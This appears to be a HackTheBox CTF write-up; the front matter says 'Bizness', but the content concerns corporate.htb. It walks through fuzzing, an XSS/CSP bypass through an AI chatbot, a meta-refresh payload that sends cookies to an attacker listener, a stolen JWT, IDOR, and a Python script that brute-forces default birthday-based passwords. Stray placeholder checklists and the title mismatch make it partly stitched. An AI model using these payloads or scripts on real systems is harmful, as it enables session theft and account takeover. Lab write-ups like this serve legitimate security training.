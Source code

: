 ```yaml
---
layout: post
title:  Bizness
description: Bizness is a Easy-difficulty Linux machine that focuses on a CVE...
date:   2024-08-07 08:01:35 -0500
image:  '/images/bizness01.jpg'
tags:   [HackTheBox, CTF, Retired, Linux, Easy]
featured: true
---
```

<div class="heading-wrapper">
    <h3 class="heading" id="Fuzzing">Fuzzing:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            <input type="checkbox" class="task-list-item-checkbox" checked> ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u <a href="http://corporate.htb" target="_blank">http://corporate.htb</a> -H 'Host: FUZZ.corporate.htb' -fs 175
        </li>
<ul>
  <li class="checked">Item 1</li>
  <li class="checked">Item 2</li>
  <li>Item 3</li>
</ul>
    </ul>
</div>

  <h1>My Checklist</h1>
  <ul class="checklist">
    <li><i class="fa-solid fa-frog"></i>Item 1</li>
    <li><i class="fa-solid fa-frog"></i>Item 2</li>
    <li><i class="fa-solid fa-frog"></i>Item 3</li>
  </ul>


<div class="heading-wrapper">
    <h3 class="heading" id="Web_Exploration">Web Exploration:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            There is an AI chat bot we can seemingly take advantage of.
            <ul class="contains-task-list">
                <li>
                    We are able to send <code>&lt;html&gt; scripts</code> through the chat bot and it seems to be rendering the scripts.
                    <ul>
                        <li><code>XSS</code> Vulnerable.</li>
                    </ul>
                </li>
                <li>
                    We attempt <code>javascript</code> but it is blocking processing JavaScript with <code>CSP</code> <strong>Content-Security-Policy</strong>.
                </li>
            </ul>
        </li>
    </ul>
    <pre><code>|   | |---| |Content-Security-Policy<br>base-uri 'self'; <br>default-src 'self' http://corporate.htb http://*.corporate.htb; <br>style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://maps.googleapis.com https://maps.gstatic.com; <br>font-src 'self' https://fonts.googleapis.com/ https://fonts.gstatic.com data:; <br>img-src 'self' data: maps.gstatic.com; <br>frame-src https://www.google.com/maps/; <br>object-src 'none'; <br>script-src 'self'|`
    </code></pre>
</div>

<i class="fa-solid fa-frog"></i>

<div class="heading-wrapper">
    <h3 class="heading" id="Exploring_available_JavaScript">Exploring available JavaScript:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            Here is a curl command that attempts to access that javascript and shows that its possible to access it.
            <pre><code>curl -sS '<a href="http://corporate.htb/assets/js/analytics.min.js?v=froggie" target="_blank">http://corporate.htb/assets/js/analytics.min.js?v=froggie</a>'</code></pre>
        </li>
        <li class="task-list-item is-checked">
            We can see that it's possible to exploit this javascript. We can craft a URL to send the chatbot now to grab some session cookies.
            <pre><code>&lt;meta http-equiv="refresh" content="0; url=http://corporate.htb/%3Cscript+src='/vendor/analytics.min.js'%3E%3C/script%3E%3Cscript+src='/assets/js/analytics.min.js?v=document.location=`http://10.10.14.34:34000/${document.cookie}`'%27%3C/script%3E"/&gt;</code></pre>
            Sending this script to the chat bot while having a listening server on our attack box will grab a cookie.
        </li>
    </ul>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="Cookie_Theft">Cookie Theft:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            Setup your server for cookie theft. <code>python -m http.server 34000</code>
            <ul>
                <li>We grab a cookie for <code>CorporateSSO</code></li>
                <li>Set the cookie in your browser. Set the path to <code>/</code> and the domain to <code>.corporate.htb</code> /Value=<code>eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6NTA3MSwibmFtZSI6Ikp1bGlvIiwic3VybmFtZSI6IkRhbmllbCIsImVtYWlsIjoiSnVsaW8uRGFuaWVsQGNvcnBvcmF0ZS5odGIiLCJyb2xlcyI6WyJzYWxlcyJdLCJyZXF1aXJlQ3VycmVudFBhc3N3b3JkIjp0cnVlLCJpYXQiOjE3MjE3NTk4OTksImV4cCI6MTcyMTg0NjI5OX0.peLklF24DypFH8xEUc2VajwwItqc6R7kHzAAgASQ1fE</code></li>
            </ul>
        </li>
        <li class="task-list-item is-checked">
            After setting the cookie then clicking sign in on <code>people.corporate.htb</code> we have access to the panel under the user <code>Julio Daniel</code>.
            <ul>
                <li>Access to some panels but nothing really stands out too much at first.</li>
                <li>We have a <code>sharing folder</code> where people can share files.</li>
                <li>Chat where employees can chat.
                    <ul>
                        <li>Clicking on profile images sends us to the user's profiles.
                            <ul>
                                <li>Vulnerable to <code>IDOR</code>. We can navigate between users in the browser by changing the user number.</li>
                            </ul>
                        </li>
                    </ul>
                </li>
                <li>There is an <code>openvpn</code> file that I can download. Probably gives access to a VPN to get into the internal network.</li>
            </ul>
        </li>
    </ul>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="IDOR">IDOR:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            We are able to perform some IDOR with curl and get the files of other users onto our current user's sharing folder. I can't get this to work so I'm moving on.
        </li>
    </ul>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="Brute_Forcing_Users">Brute Forcing Users:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            There's an email we can look at that gives us an "On-boarding" playbook. It has a generic password format for new employees.
            <ul>
                <li>We can use this basic template and brute force all users we know to see if they forgot to change their passwords.</li>
            </ul>
        </li>
    </ul>
    <pre><code>#!/usr/bin/env python3

import re
import requests

cookie = {"CorporateSSO": "YOUR_COOKIE_HERE"}

for i in range(5000, 5100):
    resp = requests.get(f"http://people.corporate.htb/employee/{i}", cookies=cookie)
    if "Sorry, we couldn't find that employee!" in resp.text:
        continue

    user_name = re.findall(r"(\w+\.\w+)@corporate.htb", resp.text)[0]
    birthday_str = re.findall(r'&lt;th scope="row"&gt;Birthday&lt;/th&gt;\s+&lt;td&gt;(\d{1,2}/\d{1,2}/\d{4})&lt;/td&gt;', resp.text)[0]
    m, d, y = birthday_str.split('/')
    password = f"CorporateStarter{d.zfill(2)}{m.zfill(2)}{y}"
    resp_login = requests.post('http://sso.corporate.htb/login', data={'username': user_name, 'password': password}, allow_redirects=False)
    if "/login?error=Invalid%20username%20or%20password" not in resp_login.text:
        print(f"{user_name}: {password}")</code></pre>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="OpenVPN">OpenVPN:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            Downloaded an <code>openvpn</code> file from <code>elwin.jones</code> and connected:
            <pre><code>sudo openvpn elwin-jones.ovpn</code></pre>
            <ul>
                <li>We can see the <code>tun1</code> interface being created on our attacking box.</li>
            </ul>
        </li>
    </ul>
</div>

</body>
</html>
